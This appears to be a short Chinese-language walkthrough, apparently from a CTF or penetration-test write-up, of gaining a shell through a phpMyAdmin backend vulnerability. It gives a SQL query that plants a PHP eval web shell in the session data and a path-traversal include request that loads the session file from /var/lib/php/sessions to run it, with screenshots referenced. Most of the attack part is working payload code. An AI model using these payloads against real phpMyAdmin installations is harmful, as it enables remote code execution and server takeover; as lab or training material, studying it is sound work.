 然后搜一下这个版本的漏洞，发现一个后台 getshell 的漏洞

https://www.cnblogs.com/fox-yu/p/9209203.html

直接上最简单的做法，还有一个写入表内包含表文件的做法自己找找哈，原理一样~

```sql
select '<?php @eval($_GET[1]);?>';
```

![version](img/php_1.png)
然后包含一下 sess_cookie 文件

```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)
```

![cookie](img/php_2.png)
cookie 是 phpMyAdmin 的值
